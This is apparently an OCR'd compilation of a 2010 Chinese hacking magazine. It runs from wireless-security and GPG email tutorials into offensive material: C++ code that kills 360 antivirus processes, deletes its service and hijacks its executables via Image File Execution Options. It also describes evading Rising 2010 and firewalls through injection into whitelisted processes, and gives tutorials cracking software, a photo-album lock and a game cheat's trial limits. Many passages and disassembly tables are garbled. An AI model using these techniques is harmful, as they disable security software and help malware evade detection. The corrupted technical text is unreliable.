802.1x 协议由 IEEE 定义，用于有线和无线局域网端口访问控制。802.1x 引入 EAP 认证机制，可使用 MD5、一次性口令、智能卡、公钥等多种认证方式，其授权和接入控制过程由 RADIUS 服务器完成，适用于企业级无线网络环境。

### 2.3 VPN

VPN 类型很多。相对于较简单的 PPTP VPN，IPSec VPN 采用 IPSec 底层协议保障连接机密性、完整性和认证性。IPSec 也可用于保障 WLAN 安全，且安全性高于传统 PPTP VPN。可在 802.11 无线网络上部署 IPSec 服务实现，如图 14 所示。

### 2.4 划分 VLAN

VLAN 是交换网络概念，在逻辑上将物理链路划分为不同广播域，而非物理拆分。比如某工程组工作机可划入同一 VLAN，无需依赖原有物理布线，甚至可与其他工作组物理混布。通过 VLAN 可实现软件方式重配置网络，而非物理搬迁设备。

对于无线 AP，可在交换机侧扩展多个 VLAN，并与多个 SSID 对应；不同 VLAN 可采用不同安全加密类型。


### 3. 小结

综上所述，不同无线网络用户遭受安全威胁程度不同，所需技术支持也不同。因此可根据需求选择不同安全方案。例如家庭 SOHO 用户可采用隐藏 SSID、MAC 地址过滤等简单防护，也可采用 WPA-PSK 并兼容 WEP。中小公司除上述措施外，还可结合 WPA、隐藏 SSID、MAC 过滤、VPN 等。企业或大规模 Public WLAN 可采用 Web 认证、无线客户端隔离等高级措施。大型企业和学校建议采用 WPA2 及以上方案，保障无线局域网安全性与完整性。

那么采用这些方法是否就一定能杜绝“蹭网”？只能说，这些方法足以防住 99% 试图“蹭网”的人，但仍可能存在更高阶无线 Hacking 手段使防护效果打折。

总之一句话：蹭网不会因此消失，也不会因此绝迹，它只会出现在更隐秘的无线网络里。

#### 利用 GPG 保护电子邮件通讯安全

从文中可以学到：如何保护自己的电子邮件通讯安全。

很多人会倾向使用 PGP 这类邮件安全加密程序，在现实中配合相关软件即可实现较好的邮件安全保护。下面来看 GPG 软件的使用方法。

软件名称：GPG4win  
当前最新版本：2.0.1  
所需插件：Claws Mail（version 3.7.21）

首先看安装过程：在 Windows 系统下运行 `gpg4win-2.0.1.exe` 程序（交互式引导安装），如图 1。


安装完成后点击“Finish”按钮即可，如图 4。接下来需要生成与邮件地址对应的密钥：点击“开始”->“程序”中的“Gpg4win”子菜单，如图 5；运行其中“GPA”程序。首次运行时，系统会提示是否添加属于您的密钥对，如图 6。点击“Generate key now”进入密钥生成向导，程序先要求输入密钥拥有者名称，如图 7。

下一步要求输入邮箱地址（注意：这一步很重要，若生成密钥与该邮件地址不匹配，则无法正常使用），如图 8。

然后系统提示输入用于保护密钥的字符串（Passphrase），建议输入 8 位以上并包含数字或特殊字符。

在输入过程中，Passphrase 输入框可能无回显提示，输入完成后点击“OK”确认。

如果密码强度不足，会弹出错误提示（如“保护字符串必须至少包含 1 个数字或特殊字符”），如图 12。此时可选择“Take this one anyway”继续，或返回重新设置更强密码。若选择“Use it now”，程序会继续并在下一步要求再次输入确认字符串，如图 13、图 14。


生成后可查看密钥对详细信息，包括：密钥所有者名称/EMAIL 地址、唯一编号、识别描述、过期时间、信任关系、有效性、密钥算法、生成时间等。

在使用密钥之前，需要掌握 PGP 邮件安全通讯的基本知识。要正常使用 GPG 进行邮件加密通讯，必须正确管理密钥。这里的“管理”包括：导出、公钥传送以及密钥备份。

接下来即可按照本章步骤使用生成的密钥对。


## 中级｜安全防御

### 2010 第二季

大约等待半分钟，图19将提示上传成功。此时我们可以打开浏览器，访问 http://keys.gnupg.net，并以邮件地址作为搜索内容进行搜索，即可获得相应的公钥下载地址，如图19。

导入过程也变得简单了。当我们获得别人文件所需的公钥时，可以通过点击 GPA 菜单栏的“Keys”→“Import Keys...”进行文件导入，如图20。

若导入成功，我们将可以在 GPA 的主界面看到刚导入的文件，如图21。

另外，针对复杂 GPG 程序版本、操作系统或键名等情况，必须备份密钥并重新导入新 GPA 系统。我们可以通过点击菜单栏的“Keys”→“Backup...”，进行密钥的备份（注意：此备份操作生成的 ASCII 文件也会包含私钥，因此必须保证该文件不被泄露），如图22。

至于密钥的导入过程，则与上文所述的公钥导入过程一致。

下面让我们来看看如何通过 GPG 密钥来进行邮件加密收发操作。这部分操作中，需要先对 Claws-Mail 进行配置。在“开始”→“程序”菜单中找到“Gpg4win”菜单，运行其中的“Claws-Mail”程序，如图23。

在首次运行 Claws-Mail 程序的时候，程序将提示要求建立新账户，点击“Forward”，下一步输入您的本体信息，如图25。

程序将询问您是否将公钥上传至密钥服务器（keys.gnupg.net），选择“Yes”，如图18。

后台我们就可以在 Claws-Mail 的主界面看到我们的 Mailbox 树状菜单了。到这里整个配置过程还没结束，点击菜单栏“Configuration”→“Preferences for current account...”，如图29。

在弹出的对话框中选择“Account”→“Privacy”分页，在“Default privacy system”选择栏中选择“PGP MIME”，然后勾取以下内容：

- Always sign messages
- Always encrypt messages
- Always sign messages when replying to a signed message
- Always encrypt messages when replying to an encrypted message
- Encrypt sent messages with your own key in addition to recipient's

操作后如图30。再进入“Plugins”→“GPG”分页，选择“Select key your email address”，如图31。点击“OK”按钮，整个配置过程完成。

现在让我们看看发邮件的过程与日常邮件发送过程有什么不一样。点击 Claws-Mail 主页面的“Compose”按钮，在弹出的邮件发送窗口中输入相关内容（注意：这里的收信人邮件地址应对应的公开密钥已被对方导入其 GPA 程序中，否则邮件将以明文方式发送），如图32。然后点击“Send”按钮进行发送，此时程序将提示您“PGP MIME”加密方式无法加密您的邮件标题，如图33。点击“Continue”按钮。

若您在设置 SMTP 时没有写入邮箱密码，下面程序将要求您输入 SMTP 密码完成邮件发送过程。接下来查看 Claws-Mail 程序 Mailbox 树状目录下的“Sent”子目录，将可以看到刚刚由我们发送的邮件记录，其邮件将以红色显示并带有加密标记——表示该邮件是加密的，如图34。

让我们再次来看看收邮件怎么处理。首先发送一个邮件到加密邮箱，然后登录并用 Outlook Express 打开，得到如下结果，如图35。

现在我们可以尝试邮件的回复操作，回复将保持正文内容，而邮件本身将带有两个附件（其中一个附件为 PGP 的版本号，另一个附件为对应的 PGP 头部文本）。

使用文本编辑器打开，放大后如图36。只有当我们拥有 demonalex@2len.com 的私钥（存放在 GPA 程序密钥环中）并通过 Claws-Mail 打开该邮件时，才能解码邮件中的明文内容，如图37。

当打开加密邮件时程序出现如下错误提示，如图38。出现这种情况，应如何解决？

答：此错误是由于 Claws-Mail 没有加载 PGP 插件引起的，可以通过以下步骤重新加载 PGP 插件：在 Claws-Mail 程序菜单“Configuration”→“Plugins...”，如图39。

在弹出的 Plugins 对话框中选择“Load...”，如图40。

选择对应的 DLL 文件：pgpcore.dll、pgpinline.dll、pgpmime.dll，点击“Open”按钮，如图41。

将得到如下输出，如图42。

类似地对其他插件操作，关闭对话框后重新启动邮件程序即可。

看到这里，整个软件的基本使用方法相信已经完全掌握了。下面再让我们来看看日常使用中可能碰到的一些问题，我帮你们整理成了一个 FAQ。

## FAQ

### GPG 与 PGP 是否兼容？

答：GPG 与 PGP 完全兼容。

### 当更换了 GPG 私钥的属性（包括保护字串或生存期）后，是否需要重新分发公钥？

答：需要，因为公钥中含有与私钥属性相关的授权信息。

一些要注意的事项也放在文中整理了出来，不过还有两点需要再强调：一点是 GPG4win 安装包中自带 Claws-Mail 这个插件；另外一点是需要先到密钥服务器更新公钥，更新可能需要一些时间。

## 我爱编程，做自己想做的——放倒双引擎的360

## 一、基本测试

废话少说了，下面开始对我们所做的测试。首先当然是下载、安装并运行 360 杀毒，如图1。然后把它的“实时防护”调到最高，接着从“卡饭”下载了一个病毒包，如图2，看看 360 是否可以全杀。最终的扫描结果如图3。然后查看 360 进程，如图4，只有 2 个，通过“任务管理器”就可以结束。

我们再看看它的服务，服务似乎没什么可拦的，失败后会重新启动服务，如图5、图6。

## 二、代码编写

下面开始写代码来测试它的安全性，思路就是首先结束它的两个进程，然后删除它的监控服务。代码都是用 API 实现的，未涉及内核，软件是用 ntapi 编写的。GetPidFromName(LPCTSTR name) 这个函数是从进程快照中按进程名找到进程 ID 的，我们只要给函数传入进程名就可以了。函数实现用的是经典的枚举进程，以下是部分代码：

```cpp
HANDLE hSnapshot=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0); //创建进程快照
PROCESSENTRY32 p32;
p32.dwSize=sizeof(PROCESSENTRY32);
BOOL b=Process32First(hSnapshot,&p32);
while (b) //循环直到进程快照结束
{
    if (!lstrcmpi(p32.szExeFile,name))
    {
        if (...) return p32.th32ProcessID;
    }
    b=Process32Next(hSnapshot,&p32);
}
CloseHandle(hSnapshot);
```

函数执行成功的时候，我们就得到了 360 进程的 ID，接着调用 OpenProcess 打开进程，获得进程句柄。再把得到的进程句柄传给 TerminateProcess，就可以用最普通的方法结束进程了。

映像劫持在很久以前就被病毒广泛利用了，但现在不一定有效，我们可以试试。创建一个全局的注册表键值 RegSubPath[]，准备把 360 文件夹里的 5 个主要 exe 都劫持掉。360 的 5 个主程序路径分别指向：

```cpp
lstrcpy(RegSubPath[0], "\\??\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\360sd.exe");
lstrcpy(RegSubPath[1], "\\??\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\360tray.exe");
lstrcpy(RegSubPath[2], "\\??\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\360rps.exe");
lstrcpy(RegSubPath[3], "\\??\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\360safe.exe");
lstrcpy(RegSubPath[4], "\\??\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\360guard.exe");
```

路径值填好后就可开始在注册表里创建路径了，主要代码如下：

```cpp
for (int i=0;i<5;i++)
{
    RegCreateKeyEx(HKEY_LOCAL_MACHINE,RegSubPath[i],0,NULL,REG_OPTION_VOLATILE,KEY_ALL_ACCESS,NULL,&hkey,&dwType);
    if (ERROR_SUCCESS==RegSetValueEx(...) )
    {
        ...
    }
}
```

循环 5 次用 RegCreateKeyEx 创建 5 个路径，然后用 RegSetValueEx 为每个路径设置一个字符串值，键名是 Debugger，值是 `c:\windows\system32\notepad.exe`。

## 三、开始测试

下面是分析爆破的程序，如图7。“后悔了”按钮是用来删除映像劫持持久化的 5 个位置，便于测试后恢复杀毒防护。

单击“let go”按钮，进程结束成功。

下面实现删除服务功能，首先使用 OpenSCManager 来获得服务控制管理器句柄：

```cpp
SC_HANDLE hSc=OpenSCManager(NULL, SERVICES_ACTIVE_DATABASE, SC_MANAGER_ALL_ACCESS);
if (!DeleteService(hSc)) {
    AfxMessageBox(_T("结束进程失败！"));
}
```

结束成功，如图8，并删除进程防护，如图9。

如图10，这是映像劫持成功的提示，桌面右下角已经没有 360 的绿色图标了，如图11。然后再用 IceSword 查看，也没有 360 的进程，如图12。现在监控服务成功删除，只要进程一结束，杀毒服务就下去了，这里只剩余查杀扫描了，如图13。

本来服务启动新建进程还可能再被杀，我们只要把 360sd.exe 复制并删除即可。其实就是最后一步验证。系统加载 360sd.exe 自动退出了，说明这类防护已经失效。若你们在调试时发现瑞星服务也会被关闭，说明代码有问题，还要继续处理服务逻辑。

#### 深入剖析瑞星 2010 主动防御体系

从中文可以学到：

- 了解瑞星主动防御原理
- 掌握原理进行免杀

本篇文章是我见过的较有代表性的一篇文章之一，写得不够好，希望大家见谅。

本人命中了瑞星主动防御的机制，经过测试，绕过了瑞星 2010 的动态防御。拿云杀毒与主动防御做对比，发现它们是一样的。

现在找到了问题。通过针对 2010 的 KB 补丁，我们使用 2010 代码的某个库或函数执行，将其动态防御和静态防御都关闭，从而在不同环境下达到免杀目的。文章中也提到，Hacker 的思想是不做一成不变的。

```cpp
return TRUE;
AfxMessageBox(_T("鼠标服务失败！"));
```

### 2010 第二季

## 黑客免杀 | Middle-Level

名称、服务名称、描述信息不超过 3 个字。安装路径不要选 Program Files 这个目录，短一些更好。配置后如果仍报毒，（此处做法未写完，内容被图片遮挡）。

我们就要换个思路了。我们可以这么想：数据流是什么？就是数据的配置值。

再想，数据流通常由什么生成？还是配置值。如何修改数据流？答案还是配置值。总之，这些是由配置而来。好了，直接上代码，看看我的思路是否正确。

程序加固的原因，立刻揭秘。由于这几个命令，再测试，上传成功，如图10、图11，立刻上线。HOHO，但这样也不代表完美。

难点在于：我们还有两个问题没有解决。第一，我们用的方式在 IE 场景下可能过不了防火墙。第二，我们还不能自动删除弹窗。接下来就解决这两个问题。

- 想突破防火墙，必须先了解它的原理。现在大部分防火墙在应用程序规则里，一旦发现类似 IE 的白名单项（iexplore.exe、Outlook Express（msimn.exe）、lsass.exe、spoolsv.exe、MSTask.exe、winlogon.exe、services.exe、svchost.exe 等）就会放行。
- 激动人心的时刻到了：自动删除。思路是利用刚才的规则，找一个合法进程并注入。

图14中可见文件列表、进程列表等信息，图15为提示对话框。

# 中级 | Cracker

### 2010 第二季

#### 逆向中的正向

### 简单展示破解中编程的意义

从本文可以学到：
- VBS 在破解学中的妙用

### 前言

VBScript 是 Visual Basic Script 的简称，简称也被缩写为 VBS。VBS 是微软开发的一种脚本语言，可以看作是 VB 语言的简化版，与 VBA 的关系也非常密切。它具有原汁原味的特点。日前这种语言广泛应用于网页及 ASP 程序中，同时还可以直接作为一个可执行程序，用于调试简单的 VB 代码。

### 过程

今天我们要破解的就是图上的一个 CM。至于具体的过程，图 1 所示。

我们的 VB decompiler 教人，来到图 2 所示的位置。我的 VB decompiler 对文本不是很支持，在网上找了一下，也没有很好的解决办法，只能自己判断了。很明显，下面的代码是弹出正确的提示：

```vb
loc_402607: var_A4 = CVar([CDbl(Me.Text2.Text) + CDBl(&H9FBF1)])
loc_402614: If var_A4 = CVar(Me.Text1.Text) Then
loc_402629:   MsgBox "正确的提示！"
loc_40267E: End If
```

好，这就是关键所在了！我们可以看到，注册码 + CDbI(&H9FBF1) 的结果如果等于密码，就会弹出成功。那就只需要用 VB 脚本来构造这个代码：

```vb
<script type="text/vbscript">
document.write(CDbI(&H9FBF1) & "<br />")
</script>
```

### 结论

这个例子简单展现了破解过程中需要编程思维的基础，陈题序列中的异或、加密算法的应用、也是需要一点编程功底的。当然，这个 CM 并没有更复杂的玩法，它可以用 VB EXPLORER 把机器码的文本转化进行推算，这样就可以修改程序的机器码。即使在不知机器码上的字句，也可以用同一段程序破解。

## 简单破解技巧 QQ 使者 2010 版

从本文可以学到：
- 如何简单地破解一款软件

### 过程

这几天，常会的同学们在网上找 MM，开放一个功能较多的 80 后网络活动。无奈 MM 们的相册都加密了，他们便开始破解这个小山，希望可以看到 MM 的魅力。我们在软件中写注册码，凭借对分析的花括号等提示，对收集之所以做出上传。结果找到的软件需要注册才能启动，破除了其内容的代码格式是一个很小的提示，以下便试图破解密码、注册码和相册等。

## 破解外挂之潇潇多开采集 V1.69 正式版

从本文可以学到：
- 基本的破解流程和如何去除自校验

### 前言

这次外挂也是刚出来，顺便研究一下，和大家一起了解这个外挂的制作过程，大家先看一下这个外挂的界面，如图 1。

每登录一次你会有 20 分钟的试用时间，只要时间一到就需要重新登录，而且次数也有限制，如图 2。

这次的破解就是去除掉外挂的试用时间和试用次数限制，达到无限试用的目的，在破解过程中我们还去掉一个自校验。

### 过程

查找，是用 VB 写的；搜索字符串，没发现任何有用的信息，直接运行，随便输入，点击"注册"，出现"输入的账号不正确，请重新输入"提示，问题的解决点就在 3 的这个地方。

这个外挂也是刚出来的，顺便先不去注册，走一下软件校验流程，看看是不是存在本地校验，先看图 5。

这样就完成了，保存后再一次效果，出现如图 7 的提示，说明是一个自校验，进行了一个基本的去除。

## 反汇编

从本文中可以学到：
- 软件破解的算法分析

## 软件破解入门系列五

此时 OlyDbg 的反汇编窗口是示意图 3 所示，我们按一下 F8，此时 ESP 寄存器的内容变成了红色显示，如图 4 所示。我们在 OlyDbg 的命令行窗口中输入 "hr ESP"，按下 F9 让软件运行起来之后，会停在如图 5 所示位置。

当我们 F8 再步进到 005DE33F 处的 retn 指令后，就来到了软件的 OEP 处，如图 6 所示。

### 二、爆破、追码

脱壳完成之后，我们可以开始着手分析软件的注册流程了。在分析之前，我们可以先试用一下软件，看看软件是否存在注册时的错误提示。目标软件的注册提示如图 9、图 10 所示。

我们可以发现，软件在注册时的提示是一个字符串："abcdeghf"。从程序中看到对这个字符串的校验逻辑，发现需要输入对应的序列号才能通过校验。

### 三、算法分析

在我们学习破解的过程中，学会算法分析可以说是一条必经之路。如果你通过之前的学习，掌握了扎实的汇编功能，搭建了自己的分析的耐心，那么学习算法分析就是一件水到渠成的事情。下面我将带大家一起走入算法分析的领域。

分析中输入的注册信息。在断点之后，我们依旧单步F8往下，但是这次看到的速度颇为缓慢，因为我们要开始分析软件的注册算法流程了。当我们尝试的复制文本后，我们发现软件开始对注册信息的替换作出相应的反应。

"IDIV"指令是处理器的有符号的除法指令。IDIV指令一般会把除法的结果放在EAX寄存器中，而把余数放在EDX寄存器中。

| 地址 | 指令/内容 |
|---|---|
| 004FAA0A | E3 25CAF4FF | CALL dump.0044734 |
| 004FAA0E | 83D0 74FFFFFF | CMP DWORD PTR SS:[EBP-8],0 |
| 004FAA15 | 74 1A | JE SHORT dump.004FAA32 |

| 地址 | 指令/内容 |
|---|---|
| 004FAAD7 | 8B F5 | MOV ESI, EBP |
| 004FAADA | 8D0 | ... |
| 004FAAE0 | 74 1A | JE SHORT dump.004FAA32 |

如果只是看这些指令，我们会认为它从头到尾似乎是被延伸了什么内容，但是由于我们现在是在动态分析，所以建立在新的操作之上，只能通过观察中断的变化来确定当前的判断。

在分析F4AAB2处的CALL指令的时候，我们发现ECX寄存器的值是我们输入的订单号，在F8走过这个CALL之后，EDX中出现了一个其他值。

| 地址 | 指令/内容 |
|---|---|
| 004FA6E0 | 81F3 F1250800 | XOR EBX,025F1 |
| 004FA6E3 | 8BC3 | MOV EAX,EBX |
| 004FA68E | 8B45 FC | MOV EAX,DWORD PTR SS:[EBP-4] |
| 004FA691 | 0FBE00 | MOVZX EAX,BYTE PTR DS:[EAX] |
| 004FA6A7 | F7F9 | IDIV ECX |

在看到4FA815的时候，我们发现EAX中的值是706481，我们只要把它们之前单字母的结果来，也是也可能会是对每个数字。最后在前面的计算结果中，我们得到的ASCII码之后，我们把它转入到EDX后便得出了0x34。

| 地址 | 指令/内容 |
|---|---|
| 004FAA70 | EB CBE4F0FF | CALL dump.0040F40 |
| 004FAA75 | B0 34 | MOV FCX,34 |
| 004FAA78 | F9 | IDIV ECX |

所以根据上面的这些信息，我们可以判断出4FAA0F处的比较是判断我们是否输入了订单号，而这个订单号比较是判断我们输入的注册码是否正确。

| 地址 | 指令/内容 |
|---|---|
| 004A4A24 | E8 0CBA4F4F | CALL dump.0044734 |
| 004A4A29 | 83D0 7DFFFFFF | CMP DWORD PTR SS:[EBP-90],0 |
| 004A4A2E | 75 0F | JNZ SHORT dump.004A4A41 |

此时的信息窗口内容如下：堆栈 SS:[0012F7B8]=01C49CD4，(ASCII "abcdefgfh")。在分析的过程中，对于我们已经分析出来的结论，我们便要重新用到上面做过的步步解析，回到程序上方做好一章准备，用到两边的方式，将其逐步的到达。我们可以看到在 4FAA70 这里的 F8 指令，进入的是对我们的 EDX 中的第一个字节进行处理。

在走到 4FAA75 时，我们发现 ECX 寄存器中出现了我们输入的订单号，而且为 ASCII 的数值为 0x24。